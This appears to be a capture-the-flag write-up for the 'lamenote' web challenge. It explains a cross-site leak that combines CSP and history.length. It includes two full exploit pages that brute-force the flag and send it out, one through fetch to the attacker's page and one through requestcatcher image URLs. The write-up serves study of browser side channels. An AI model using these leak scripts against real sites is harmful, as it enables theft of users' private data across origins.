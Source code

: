## Chall -- Author: Seraphin
#### `XS Leak` via `CSP violation` and `window.history.length`

In this challenge, the author developed a webpage in which there is an iframe for creating notes (typical XS leak or XSS chall). In the other place, there is a bot which creates a notes inserting the flag and after that visits our url. 

#### Intended solutions

The page for creating notes has two main features, creating and querying notes. Notes consist in a title, a content and a IMG url (this is important). For querying a note, we can do it using a url param, that searches the query in both title and content. In the search function, there is a specific behavior when there are more than one note that matches the query. If there is just one note it would load the full note (`return render_note(results[0])`), in the case that more than one note satisfy the query, it won't load the img url (`return "<!DOCTYPE html><body>" + "".join("<a href='/note/" + note["id"] + "'>" + note["title"] + "</a> " for note in results) + "</body>"`). This tricky behavior would be important for one of the unintended solution. For the bot, it basically loads the page, creates a note with the flag in the content and a imgurl.com url for the img. After that, it visits your page.

The solution for this challenge consist in the abuse of CSP for the image and the `history.length` information. In simple words, if our main page has a CSP of `img-src none` and we try to load inside an iframe one note that have an external img, the iframe won't load. In the case that we are trying to load an inexistent note, it will load. This difference can be seen using the web API `history.length`. In the case that we hit one character of the flag, the iframe won't load and the `history.length` doesn't change. 
Author solution (with my comments):

```html
    <!DOCTYPE html>
    <html>
    <head>
    </head>
    <body>
    <script>
        (async function(){
        async function go(body) {
          let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
    
          // Create the iframe
          f = document.createElement('iframe')
          // We add the restriction that blocks to load the frame if there is a img in it 
          // So, if we are searching a valid post with an external img (flag), it won't load
          f.setAttribute('csp', 'img-src \'none\';')
          f.src = url;

          // Reload the url onload
          let rCount = 0;
          f.onload = () => {
              rCount += 1;
              // change location after onload once
              setTimeout(() => {
                  f.onload = null
                  f.src = url;
              }, 100)
          }
          document.body.appendChild(f)
          await new Promise(r => setTimeout(r, 1000));
          f.remove();
          return window.history.length;
        }

        // Known means the text inside flag. irisctf{KNOWN}
        let known = "";
        // If we know some part of the flag just not to start from the beginning
        const urlParams = new URLSearchParams(window.location.search);
        if(urlParams.get("known") !== null) known = urlParams.get("known");

        // Start
        let l = await go("!"); // start
        console.log("start", l);
        // Character by character
        for(let c of '_abcdefgihkjlmnopqrstuvwxyz}') {
          let l2 = await go(known + c);
          console.log(l2, l, known, c);
          fetch("/?log=" + l2 + "|" + l + "|" + known + "|" + c);
          // Correct
          if(l2 == l) {
            known += c;
            l = l2;
            fetch("/?log=" + known);
            break;
          };
          l = l2;
        }

        // Report all the flag
        if(!known.endsWith("}")) {
          // We open the page using as starting point what we know from the flag
          // It refresh the history.length because there is a maximum of 50 
          // It works because the bot is headless
          window.open("/?known=" + known);
          window.close();
          while(1) {
            await new Promise(r => setTimeout(r, 1000));
            console.log("idle");
          }
        } else{
          // We have the full flag
          fetch("/?flag=" + known);
        }
        })();
    </script>
    </body>
    </html>
```

#### Unintended solutions


- [hamayanhamayan](https://blog.hamayanhamayan.com/entry/2024/01/08/132233). In this amazing but slow solution, the idea is to create all the possible notes. After that it will load them, if there is one that doesn't get reported via IMG url, it means that the page has loaded (without the img) more than one note (Two notes: our random character guess note + the flag note).

```html
<body>
<script>
    const sleep = ms => new Promise(r => setTimeout(r, ms));
    const prefix = "irisctf{please_";
    const chars = "abcdefghijklmnopqrstuvwxyz_";
    setTimeout(async () => {
        for (var i in chars) {
            form.title.value = prefix + chars[i];
            form.text.value = prefix + chars[i];
            form.image.value = "https://[yours].requestcatcher.com/" + prefix + chars[i];
            form.submit();
            await sleep(500);
        }
        for (var i in chars) {
            form2.query.value = prefix + chars[i];
            form2.submit();
            await sleep(500);
        }
    }, 0);
</script>
<img src="https://[yours].requestcatcher.com/start">
<iframe name="dummyFrame" id="dummyFrame"></iframe>
<form method="POST" target="dummyFrame" id="form" action="https://lamenote-web.chal.irisc.tf/create">
    <input name="title">
    <input name="text">
    <input name="image">
</form>
<form method="GET" target="dummyFrame" id="form2" action="https://lamenote-web.chal.irisc.tf/search">
    <input name="query">
</form>
</body>
```

